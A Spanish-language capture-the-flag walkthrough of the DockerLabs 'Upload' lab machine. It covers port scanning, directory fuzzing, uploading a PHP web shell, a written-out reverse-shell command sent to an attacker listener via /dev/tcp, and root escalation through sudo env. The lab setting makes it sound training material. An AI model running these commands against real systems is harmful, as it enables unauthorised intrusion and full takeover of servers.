

# [Upload](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con `bash auto_deploy.sh upload.tar` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con `ping -c 1 172.17.0.2`
 

`-c 1` ⮞ solo lo repite una vez
 

 

Ahora vamos con el reconocimiento de nmap `nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts`  
`-p-` ⮞ aplicar reconocimiento a todos los puertos  
`--open` ⮞ solo a los que estén abiertos  
`--min-rate 5000` ⮞ para enviar paquetes más rápido   
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida   
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla   
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)  
`-Pn` ⮞ ignora si esta activa o no la IP  
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)  
 

Podemos ver los resultados en el archivo grepeable haciendo `cat allPorts`, observamos tan solo está abierto el puerto **80**.
 

`

 
 

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como URL. Nos encontramos con un panel el cual nos permite subir un archivo.
 

 

Lo que debemos hacer ahora es ver si podemos el directorio donde se estarían subiendo los archivos. Para ello haremos un fuzzing gracias a gobuster con el siguiente comando: `gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2 -x txt,sql,py,js,php,html` y nos reportará lo siguiente:
 

 

Listo, hemos encontrado el directorio `/uploads` en el cual se estarían subiendo los archivos a través del panel de `Upload File`. Por lo que podríamos hacer ahora es ver si podemos subir un archivo `cmd.php` el cual nos permita la Remote Code Execution (RCE), el contenido del archivo sería el siguiente:
 

 

Probamos a subir el archivo `cmd.php`, y nos dice lo siguiente:
 

 

Por lo cual habríamos logrado la Ejecución Remota de Comandos, nos dirigimos al directorio `/uploads` y observamos que se ha subido el archivo `cmd.php`:
 

 

Y ahora pasándole como parámetro a `cmd` el comando que queremos ejecutar en este caso `id`:
 

 

Por lo que ahora nos mandaríamos una [revshell](https://www.revshells.com/). En primer lugar, nos ponemos en escucha en un puerto poniendo en la terminal lo siguiente `nc -nlvp 443`, y después escribiendo lo siguiente en el buscador `http://172.17.0.2/uploads/cmd.php?cmd=bash -c'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, recibiríamos la revshell: 
 

 
 

## Escala de Privilegios

Comprobamos que hemos podido ingresar a la Máquina Víctima como **www-data** para comprobarlo hacemos `whoami`.
 

 

Si ejecutamos `sudo -l` podemos ver que no podemos correr `/usr/bin/env` como `root` sin proporcionar contraseña. 
`-l` ⮞ listar comandos que podemos ejecutar como sudo 

 

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en env, y nos encontramos con lo siguiente `sudo env /bin/sh'`.
 

A continuación probaremos a ejecutar dicho comando adaptándolo que sería `sudo -u root /usr/bin/env /bin/bash`.
 

 

Y listo ya seríamos root!!
